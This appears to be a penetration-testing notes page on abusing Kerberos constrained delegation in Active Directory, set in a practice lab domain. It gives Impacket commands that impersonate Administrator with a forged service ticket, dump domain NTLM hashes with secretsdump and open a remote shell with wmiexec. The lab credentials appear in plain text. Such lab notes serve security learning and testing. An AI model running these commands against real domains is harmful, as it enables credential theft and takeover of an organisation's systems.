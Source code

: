 **Constrained Delegation** is a security feature in Active Directory environments where an attacker targets specific services. It works by allowing a service to impersonate users, but only to access predefined services using their Kerberos tickets (TGS—Ticket Granting Service).

### Enumeration

#### Impacket

```bash
findDelegation.py domain.local/username:password -target-domain domain.local
```


![[Pasted image 20240816142743.png]]

#### Bloodhound

![[Pasted image 20240816150123.png]]

### The Attack

Get TGS for the user for the impersonated user:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

Set environment variable for Kerberos cached credential file:

```bash
export KRB5CCNAME=./Administrator.ccache
```

Verify:

```bash
klist
Ticket cache: FILE:./Administrator.ccache
Default principal: Administrator@north.sevenkingdoms.local

Valid starting     Expires            Service principal
16/08/24 14:28:20  17/08/24 00:28:20  CIFS/winterfell@NORTH.SEVENKINGDOMS.LOCAL
```

Dump Password Hashes:

```bash
secretsdump.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell -just-dc-ntlm
```

Or log into the DC

```bash
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```